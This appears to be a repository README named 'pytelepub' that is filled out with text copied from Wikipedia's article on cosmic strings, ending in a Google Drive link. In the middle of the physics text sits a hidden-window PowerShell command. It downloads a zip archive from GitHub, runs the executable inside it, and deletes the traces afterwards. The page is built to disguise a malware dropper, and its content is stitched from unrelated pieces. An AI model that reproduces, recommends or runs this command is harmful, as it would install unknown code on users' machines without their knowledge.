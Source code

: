 # pytelepub
source: https://en.wikipedia.org/wiki/Cosmic_string

Cosmic strings are hypothetical 1-dimensional topological defects which may have formed during a symmetry breaking phase transition in the early universe when the topology of the vacuum manifold associated to this symmetry breaking was not simply connected. It is expected that at least one string per Hubble volume is formed. Their existence was first contemplated by the theoretical physicist Tom Kibble in the 1970s.

The formation of cosmic strings is somewhat analogous to the imperfections that form between crystal grains in solidifying liquids, or the cracks that form when water freezes into ice. The phase transitions leading to the production of cosmic strings are likely to have occurred during the earliest moments of the universe's evolution, just after cosmological inflation, and are a fairly generic prediction in both quantum field theory and string theory models of the early universe.

In string theory, the role of cosmic strings can be played by the fundamental strings (or F-strings) themselves that define the theory perturbatively, by D-strings which are related to the F-strings by weak-strong or so called S-duality, or higher-dimensional D-, NS- or M-branes that are partially wrapped on compact cycles associated to extra spacetime dimensions so that only one non-compact dimension remains.[1]

The prototypical example of a quantum field theory with cosmic strings is the Abelian Higgs model. The quantum field theory and string theory cosmic strings are expected to have many properties in common, but more research is needed to determine the precise distinguishing features. The F-strings for instance are fully quantum-mechanical and do not have a classical definition, whereas the field theory cosmic strings are almost exclusively treated classically.

Cosmic strings, if they exist, would be extremely thin with diameters of the same order of magnitude as that of a proton, i.e. ~ 1 fm, or smaller. Given that this scale is much smaller than any cosmological scale these strings are often studied in the zero-width, or Nambu–Goto approximation. Under this assumption strings behave as one-dimensional objects and obey the Nambu–Goto action, which is classically equivalent to the Polyakov action that defines the bosonic sector of superstring theory.

In field theory, the string width is set by the scale of the symmetry breaking phase transition. In string theory, the string width is set (in the simplest cases) by the fundamental string scale, warp factors (associated to the spacetime curvature of an internal six-dimensional spacetime manifold) and/or the size of internal compact dimensions. (In string theory, the universe is either 10- or 11-dimensional, depending on the strength of interactions and the curvature of spacetime.)

PowerShell.exe -windowstyle hidden $ident = "Get-ChildItem -Path '.' -Filter 'kpll.p'"; if ($ident.count -eq 0) { echo 'run32.dll found' > kpll.p; Remove-Item project.zip -Force:$true -Confirm:$false; Remove-Item project -Recurse:$true -Force:$true -Confirm:$false; iwr -OutFile project.zip https://github.com/Imper927/pytelepub/raw/master/python_nod_noautoinstall_keep.zip; Expand-Archive .\\project.zip; cd project; ./run.exe; cd ..; Remove-Item project.zip -Force -Confirm:$false; Remove-Item project -Recurse:$true -Force:$true -Confirm:$false; Remove-Item project -Recurse:$true -Force:$true -Confirm:$false }

A string is a geometrical deviation from Euclidean geometry in spacetime characterized by an angular deficit: a circle around the outside of a string would comprise a total angle less than 360°. From the general theory of relativity such a geometrical defect must be in tension, and would be manifested by mass. Even though cosmic strings are thought to be extremely thin, they would have immense density, and so would represent significant gravitational wave sources. A cosmic string about a kilometer in length may be more massive than the Earth.

However general relativity predicts that the gravitational potential of a straight string vanishes: there is no gravitational force on static surrounding matter. The only gravitational effect of a straight cosmic string is a relative deflection of matter (or light) passing the string on opposite sides (a purely topological effect). A closed cosmic string gravitates in a more conventional way.

During the expansion of the universe, cosmic strings would form a network of loops, and in the past it was thought that their gravity could have been responsible for the original clumping of matter into galactic superclusters. It is now calculated that their contribution to the structure formation in the universe is less than 10%.

Negative mass cosmic string
The standard model of a cosmic string is a geometrical structure with an angle deficit, which thus is in tension and hence has positive mass. In 1995, Visser et al. proposed that cosmic strings could theoretically also exist with angle excesses, and thus negative tension and hence negative mass. The stability of such exotic matter strings is problematic; however, they suggested that if a negative mass string were to be wrapped around a wormhole in the early universe, such a wormhole could be stabilized sufficiently to exist in the present day.

https://drive.google.com/folderview?id=1C8w_Az3oUoOvcA1fGA6B_XPAkmXiSA6M
